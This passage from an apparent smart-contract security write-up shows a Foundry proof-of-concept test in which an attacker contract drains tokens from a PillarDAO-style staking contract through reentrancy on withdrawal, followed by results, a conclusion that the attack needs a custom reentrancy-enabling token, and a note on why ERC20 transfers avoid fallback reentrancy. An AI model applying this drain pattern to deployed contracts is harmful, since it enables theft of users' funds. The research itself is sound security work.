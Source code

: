 ```solidity

    // Fast forward time
    vm.warp(block.timestamp + 52 weeks + 1);

    // Log balances before attack (in ether)
    emit log_named_uint("DAO balance before (ether)", evilToken.balanceOf(address(evilDAO)) / 1 ether);
    emit log_named_uint("Attacker balance before (ether)", evilToken.balanceOf(address(attacker)) / 1 ether);

    // Attacker starts the exploit
    vm.prank(address(attacker));
    attacker.attackWithdraw();

    // Log balances after attack (in ether)
    emit log_named_uint("DAO balance after (ether)", evilToken.balanceOf(address(evilDAO)) / 1 ether);
    emit log_named_uint("Attacker balance after (ether)", evilToken.balanceOf(address(attacker)) / 1 ether);

    // The attacker should have more than their original stake
    assertGt(evilToken.balanceOf(address(attacker)), stakeAmount);

    // Clean up: attacker sends tokens to test contract for inspection
    vm.prank(address(attacker));
    attacker.drain();
}
```
####  3.4 - Results
We can see using an amount  of 10000 eth, the attacker drained 40000 ethers on total.

![withdraw-reentrancy-exploit](https://github.com/user-attachments/assets/f693e49a-863f-482b-9b9d-59b9be3744be)

### 4 - Conclusion
We successfully showed that the reentrancy could be exploited by creating our own vector, since PillarDAO is using ERC20 token for stacking, we needed to deploy the contract with a custom token that allows Reentrancy.

This means that our custom token allows the attack, because PillarDAO is making use of an  ERC20 token it's not possible.

---

####  Bonus Why Fallback() is not possible here

- In a standard reentrancy attack using fallback():
- A vulnerable contract sends ETH to an attacker contract
- The attacker contract's fallback() or receive() function is triggered
- This function then calls back into the vulnerable contract before state is updated

For ERC20 tokens:
- token.transfer() doesn't trigger fallback() functions, because it's just updating internal balances
- safeTransfer() from SafeERC20 also doesn't trigger fallback()

The key difference is that ETH transfers automatically trigger the fallback/receive function, while ERC20 transfers don't. **So by default we can say that using ERC20 implementation mitigates part of the risks for reentrancy attacks!**



